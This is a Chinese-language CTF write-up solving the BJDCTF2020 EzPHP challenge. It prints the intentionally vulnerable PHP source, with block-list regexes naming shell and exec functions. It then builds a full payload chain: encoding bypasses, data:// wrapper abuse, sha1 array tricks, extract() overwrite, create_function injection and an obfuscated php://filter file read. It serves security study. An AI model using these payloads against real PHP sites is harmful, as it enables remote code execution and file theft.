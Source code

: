 # \[BJDCTF2020]EzPHP

## \[BJDCTF2020]EzPHP

## 考点

* base32
* `$_SERVER['QUERY_STRING']`不进行URL解码，用`URL编码`绕过
* `$_GET['debu']`要是aqua\_is\_cute但又不能是aqua\_is\_cute，用`%0a`换行符绕过
* `$_REQUEST`中参数值不能出现字母，<mark style="color:orange;">`$_REQUEST`</mark><mark style="color:orange;">是优先读取POST传参再读取GET传参，可以先POST再GET</mark>
* `file_get_contents($file)`一般配合`php://input`，还可以配合`data://text/plain,debu_debu_aqua`
* `$code('', $arg);`对应`create_function`
* 代码执行可以看一下`get_defined_vars()`

## wp

F12给了一段密文`GFXEIM3YFZYGQ4A=`

目测是base家族的，64，32，16等等试一下，发现是base32，解码是`1nD3x.php`

给了源码

```php
 <?php
highlight_file(__FILE__);
error_reporting(0); 

$file = "1nD3x.php";
$shana = $_GET['shana'];
$passwd = $_GET['passwd'];
$arg = '';
$code = '';

echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";

if($_SERVER) { 
    if (
        preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING'])
        )  
        die('You seem to want to do something bad?'); 
}

if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');

if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 

if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");


if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}

if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?> 
```

一点一点看，`$_SERVER['QUERY_STRING']`是get方式传入的内容，它不会进行URL解码，可以用URL编码可以绕过这个限制

然后`$_GET['file']`不能有`http(s)`，`$_GET['debu']`要是`aqua_is_cute`，这个可以用换行符绕过

`?deb%75=aq%75a_is_c%75te%0a&file=a`

![](<../../.gitbook/assets/image (5) (1).png>)



然后是\_REQUEST中参数值不能出现字母，\_REQUEST是优先读取POST传参再读取GET传参，可以先POST再GET

```
GET /1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=a

POST file=1&debu=1
```

寄了，BUUOJ环境有问题，本地复现吧。访问`1nD3x.php?file=***`，明显应该到`Aqua is the cutest five-year-old child in the world!`那里的`die`的，但是得到的回显还是`fxck you! I hate English!`

接着是要满足`file_get_contents($file)`的结果为`debu_debu_aqua`，一般这种可以用`php://input`，但是这里已经有了POST的内容，可以换成data伪协议。

```
GET /1nD3x.php?debu=aqua_is_cute%0a&file=data://text/plain,debu_debu_aqua

GET /1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61
POST file=1&debu=1
```

然后是经典的绕HASH，`sha1($shana) === sha1($passwd) && $shana != $passwd`，直接传数组即可

```
GET /1nD3x.php?debu=aqua_is_cute%0a&file=data://text/plain,debu_debu_aqua&shana[]=1&passwd[]=2

GET /1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61&%73%68%61%6E%61[]=1&%70%61%73%73%77%64[]=2

POST file=1&debu=1
```

然后看到`extract($_GET["flag"]);`，存在变量覆盖。最后一段代码是对`$code`和`$arg`进行操作，但是题目并不能直接传参，那就是要用变量覆盖进行传参。

然后`if(preg_match('/^[a-z0-9]*$/isD', $code)`是code中不能有字母数字，在后面一个正则过滤了很多关键字，这样`$arg`就不是很好绕过了

最后的`$code('', $arg);`是`create_function`，这个出现了很多次了。

```
GET /1nD3x.php?debu=aqua_is_cute%0a&file=data://text/plain,debu_debu_aqua&shana[]=1&passwd[]=2&flag[code]=create_function&flag[arg]=}var_dump(a);//



GET /1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61&%73%68%61%6E%61[]=1&%70%61%73%73%77%64[]=2&%66%6C%61%67%5B%63%6F%64%65%5D=%63%72%65%61%74%65%5F%66%75%6E%63%74%69%6F%6E&%66%6C%61%67%5B%61%72%67%5D=%7D%76%61%72%5F%64%75%6D%70%28%61%29%3B%2F%2F
POST file=1&debu=1
```

![](<../../.gitbook/assets/image (23) (1).png>)

成功输出，最后是怎么获取flag。代码执行没有过滤call\_user\_func，文件包含没有过滤require，目录扫描没有过滤DirectoryIterator

其实一开始想的是无参RCE和取反，后面看了wp一下，在get\_defined\_vars()中看到一个奇怪的变量`ffffffff11111114ggggg`，意思就是flag在`rea1fl4g.php` ，应该是文件读取了。

```
require(php://filter/read=convert.base64-encode/resource=rea1fl4g.php)
```

最后用取反绕过滤

```
<?php
echo urlencode(~'php://filter/read=convert.base64-encode/resource=rea1fl4g.php');

// %8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F

require(~(%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F))
```

最后的payload

```
GET /1nD3x.php?debu=aqua_is_cute%0a&file=data://text/plain,debu_debu_aqua&shana[]=1&passwd[]=2&flag[code]=create_function&flag[arg]=}require(~(%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F));//

GET /1nD3x.php?%64%65%62%75=%61%71%75%61%5F%69%73%5F%63%75%74%65%0a&file=%64%61%74%61%3A%2F%2F%74%65%78%74%2F%70%6C%61%69%6E%2C%64%65%62%75%5F%64%65%62%75%5F%61%71%75%61&%73%68%61%6E%61[]=1&%70%61%73%73%77%64[]=2&%66%6C%61%67%5B%63%6F%64%65%5D=%63%72%65%61%74%65%5F%66%75%6E%63%74%69%6F%6E&%66%6C%61%67%5B%61%72%67%5D=%7D%72%65%71%75%69%72%65%28%7E%28%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%8D%9A%9E%9B%C2%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F%29%29%3B%2F%2F
POST file=1&debu=1
```

解码即可
